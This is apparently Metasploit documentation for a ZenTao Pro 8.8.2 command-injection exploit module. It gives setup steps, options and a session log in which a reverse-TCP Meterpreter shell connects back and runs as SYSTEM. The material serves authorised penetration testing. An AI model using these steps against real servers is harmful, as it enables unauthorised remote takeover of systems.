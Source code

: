 ## Vulnerable Application
This module exploits a command injection vulnerability in ZenTao Pro 8.8.2 and earlier versions in order to execute arbitrary commands with
SYSTEM privileges.
          
The module first tries to obtain the ZenTao Pro version from /pro/user-login.html. If a vulnerable version is found,
it attempts to authenticate to the ZenTao dashboard. It then tries to execute the payload by submitting fake repositories via
the 'Repo Create' function that is accessible from the dashboard via CI>Repo.
More precisely, the module sends HTTP POST requests to '/pro/repo-create.html' that inject commands in the vulnerable 'path'
parameter which corresponds to the 'Client Path' input field.

Valid credentials for a ZenTao admin account are required. This module has been successfully tested against ZenTao 8.8.1 and 8.8.2
running on Windows 10 (XAMPP server).

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/windows/http/zentao_pro_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ZenTao Pro account]`
6. Do: `set PASSWORD [password for the ZenTao Pro account]`
7. Do: `set RHOSTS [IP]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the ZenTao Pro account to authenticate with. This option is required.
### TARGETPATH
The path on the target where commands will be executed. The default value is `C:\`.
### TARGETURI
The base path to ZenTao Pro. The default value is `/pro/`.
### USERNAME
The username for the ZenTao Pro account to authenticate with. This option is required.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### ZenTao 8.8.2 running on Windows 10 (XAMPP server)
```
msf5 exploit(windows/http/zentao_pro_rce) > show options

Module options (exploit/windows/http/zentao_pro_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   PASSWORD    zentao123        yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.9.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SRVHOST     0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETPATH  C:\              yes       The path on the target where commands will be executed
   TARGETURI   /pro/            yes       The base path to ZenTao
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME    admin            yes       Username to authenticate with
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows (x64)


msf5 exploit(windows/http/zentao_pro_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Successfully authenticated to ZenTao 8.8.2.
[*] Executing the payload...
[*] Command Stager progress -  20.97% done (2049/9770 bytes)
[*] Command Stager progress -  41.94% done (4098/9770 bytes)
[*] Command Stager progress -  62.92% done (6147/9770 bytes)
[*] Command Stager progress -  83.89% done (8196/9770 bytes)
[*] Command Stager progress - 100.15% done (9785/9770 bytes)
[*] Sending stage (201283 bytes) to 192.168.9.14
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.9.14:50506) at 2020-07-08 15:01:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
